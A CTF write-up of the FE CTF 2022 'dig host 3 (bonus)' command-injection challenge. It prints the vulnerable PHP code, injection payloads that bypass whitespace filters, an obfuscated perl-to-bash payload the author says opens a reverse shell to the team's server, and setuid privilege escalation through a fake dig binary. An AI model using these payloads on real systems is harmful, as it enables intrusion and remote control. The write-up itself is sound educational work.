## dig host 3 (bonus)
### intro
For the FE CTF 2022 (**F**orsvarets **E**fterretningstjeneste aka Danish Defence Intelligence Service) there was a series of command injection challenges called "dig host". 1 through 3 were pretty trivial, but "dig host 3 (bonus)" was a bit trickier. To get a sense of what the challenge looks like you can try looking at this [dig host 3](https://youtu.be/Xuf5iqOc-eY) video writeup, since the flag for "dig host 3 (bonus)" was on the same system. I played with the [DTUHAX](https://hackerlab.dtu.dk) team which is the DTU (Technical University of Denmark) ctf/hacking team.

### solution
The easy solution to this one is to simply run ``'`{cat,bonus_flag}`'``. However we did not find the easy solution. Here's how you take the long way around...

The challenge offers you a webpage where you can run the program DiG and query some dns record.

![no alt](images/dighost1.png)

The previous 3 challenges have been about command injection, so we tried various command injection. By sending `;ls` we can see which files exist in the directory, we can read files by running `;cat<flag`. This works because the website is concatenating the user input to `"dig "` and running the resulting string in bash.

![no alt](images/dighost2.png)

The first line `/dig [host]` shows an error from DiG¹ and then the output from ls.

If you run `;cat<flag` it prints the flag. This is how we solved dig host 3, but running `;cat<bonus_flag` prints nothing. My instinct here is to check what the file permissions are, or if it even is a file (it could be a directory, or a broken symlink), but running `ls -al` requires a dash (filtered) and a space (filtered). We can however run `;cat<dig_host_level3.php`. 

```php
<?php
        require_once("../include/smarty.php");


        $host = "";
    $output = "";

        if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) {
        $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]);

        exec("/dig ".$host, $output);
    }

        $smarty->assign(array(
                "PHP_SELF"      => $_SERVER["PHP_SELF"],
                "host"          => $host,
        "output"    => implode("\n", $output)
        ));

        $smarty->display("dig_host_level3.tpl");
?>
```

This code does pretty much what we'd expect from our interactions with it. It takes the user input, removes a list of disallowed characters, concats it to `/dig ` and runs it. Not being able to use whitespace, `$` or `-` is pretty limiting. The lack of whitespace makes it impossible to run commands with arguments², but we did get 1 space for free. Namely the space between `/dig` and whatever we typed in, so I thought about ways to abuse that one space.

![no alt](images/dighost3.png)

I noticed that DiG echos the input you give it at the end of the first line. If we give a reversed payload it will echo it to us, we can then reverse the reverse on our payload by using `rev`. Using this method we can inject almost arbitrary strings (specifically strings that match the regex `[^\s$-]+`) into the beginning of our line. We ran `ls -al /usr/bin` on the machine from dig host 1 (where it allowed spaces and dashes) to see which programs it had that might grant us RCE from this. We tried `python3`, `node` and `perl`.

Something like this would let us go from writing almost arbitrary strings with garbage postfixed, to writing fully arbitrary strings to stoudout.
```python
print(bytes([101,118,105,108,32,115,116,117,102,102]).decode()) >><< utnubU-1.61.9 GiD >><< ;
dmc+ :snoitpo labolg ;;
:rewsna toG ;;
... more garbage here ...
```
By piping this into python (and ignoring the garbage) it would let us generate strings that contain any character. Unfortunately none of them would accept incomplete multiline comments like `"""` in python or `/*` in javascript, not closing your comments is an error. Single line comments wouldn't help since it parsed the entire file at once. After many hours of trying things that didn't work we tried the following payload.

```
ffuts_live_od|rev>/tmp/bleh;echo`cat</tmp/bleh`
```
This payload echos `ffuts_live_od` using `dig`, then reverse it so that `do_evil_stuff` is first on the first line, then writes it to `/tmp/bleh` and then echos the output of `cat</tmp/bleh`, which collapses it into one line. Every sequence of whitespace is collapsed into one space, as the string is parsed into arguments by bash and then joined with spaces by echo.

```bash
$ echo `printf "a\n\nbc\t\td    e f"`
a bc d e f
```

This lets of have a single line with controlled prefix.

![no alt](images/dighost4.png)

RCE baby!!!

I wrote a small python script to help generate payloads and after 3 hours of sleep I made this monster. (I'm skipping over the string escaping because it is nuts and boring³)
```bash
\\\#\\\)\\\"13x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"03x\\\\\\\".\\\"02x\\\\\\\".\\\"73x\\\\\\\".\\\"33x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"83x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"e2x\\\\\\\".\\\"33x\\\\\\\".\\\"73x\\\\\\\".\\\"e2x\\\\\\\".\\\"23x\\\\\\\".\\\"23x\\\\\\\".\\\"e2x\\\\\\\".\\\"53x\\\\\\\".\\\"63x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"07x\\\\\\\".\\\"36x\\\\\\\".\\\"47x\\\\\\\".\\\"f2x\\\\\\\".\\\"67x\\\\\\\".\\\"56x\\\\\\\".\\\"46x\\\\\\\".\\\"f2x\\\\\\\".\\\"02x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"02x\\\\\\\".\\\"96x\\\\\\\".\\\"d2x\\\\\\\".\\\"02x\\\\\\\".\\\"86x\\\\\\\".\\\"37x\\\\\\\"\\\(tnirp|rev>/tmp/bleh;echo`cat</tmp/bleh`>/tmp/gamer;perl</tmp/gamer|bash
```

It makes a reverse shell to DTUHAX's server. The challenge is not done.

![no alt](images/dighost5.png)

We still can't read bonus_flag. Turns out you have to be user 20000, (aka root? I think) and we are not user 20000. Luckily `/dig` is a setuid binary with the right user, and DiG has an option to read domains to query from a file⁴, and it echos those domains!

![command on challenge server](images/dighost6.png)

huh?

![command locally](images/dighost7.png)

works fine locally?

We spent a long time trying to figure this out, eventually we used the rev shell to copy their version of DiG and reversed it. It is not at all the normal DiG binary.
![no alt](images/dighost8.png)

Turns out they have 2 dig binaries and a symlink
```
$ find / -name dig 2>/dev/null
/usr/bin/dig
/web-apps/php/html/dig
/dig
```
The binary checks that `argc == 2` and filters some illegal characters from the first argument, then it just runs it in bash.

![binary ninja decompilation of the main function of the fake dig binary](images/dighost9.png)

They don't ban `-` in the fake `dig` binary so running `/dig -fbonus_flag` works fine. This works because the fake dig binary sees `-fbonus_flag` as one argument, and then forwards it to bash running as a higher privilege user (because of setuid).

```
$ /dig -fbonus_flag
; <<>> DiG 9.16.1-Ubuntu <<>> flag{wait, i thought this was web!}
;; global options: +cmd
(more garbage is printed after)
```

### epilogue

Why does ``'`{cat,bonus_flag}`'`` work? The payload is quoted in single quotes, which should make it be treated as a string. Additionally, the PHP user doesn't have permission to access the bonus_flag file. This only works because the single quotes makes the first instance of bash (as run by PHP) pass the inner data as is to the fake dig binary.
PHP runs ``/dig '`{cat,bonus_flag}`'`` which makes the fake dig binary run execve which runs `/bin/bash` with the arguments og `bash`, `-pc` and `` dig `{cat,bonus_flag}` ``.

What exactly happens after this is left as an exercise for the read :)

### alternative writeup
pyjam.as's [writeup](https://pyjam.as/writeups/fectf2022) shows a really creative solution that involves modifying your DNS records! It's in danish though, and the website is abhorent.

### footnotes

¹ One thing you might notice about running `dig` without arguments on your own machine is that it doesn't print `/dig [host]`, it doesn't even error. This is a hint that we're not running the DiG binary that we expect. At the time I did not notice this.

² This is what we believed at least. There are payloads like ``'`{cat,bonus_flag}`'`` which break out of this. However the reason this payload works is pretty finicky.

³ I'm not 100% of the details for this. As is written later in the writeup, the payload is actually parsed and serialized by bash twice, at least. These tranformations are deterministic and can easily be reversed, but only if you know what parsers are between you and your target. At this part of the attack I fully believed it was only parsed once, as the PHP code calls exec on dig. The fact that it runs `"/dig"` instead `"dig"` should have tipped me off that it might not be running a normal dig binary. You can look at the (awful, ctf) code [here](dig-host-3-bonus/payload.py)

⁴ A useful resource for figuring out security relevant capabilities for random linux binaries is [gtfobins](https://gtfobins.github.io/gtfobins/dig/).